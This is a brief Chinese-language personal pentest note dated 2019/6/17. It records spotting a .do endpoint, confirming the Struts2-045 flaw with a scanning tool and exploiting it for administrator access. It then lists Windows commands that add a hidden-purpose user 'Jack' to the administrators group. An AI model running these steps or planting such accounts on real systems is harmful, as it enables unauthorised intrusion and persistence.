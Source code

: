 ```yaml
---
layout: post
comments: true
categories: notes
---
```


## 随记

### 2019/6/17
碰到.do结尾，首先测试struts，使用Lucifer的工具，经检测发现`存在目标存在struts2-045漏洞..[Windows]`,使用k8gege的exp进行利用，直接管理员权限。
```
net users
net user "Jack" xxyyzz /add
net localgroup administrators "Jack" /add
```
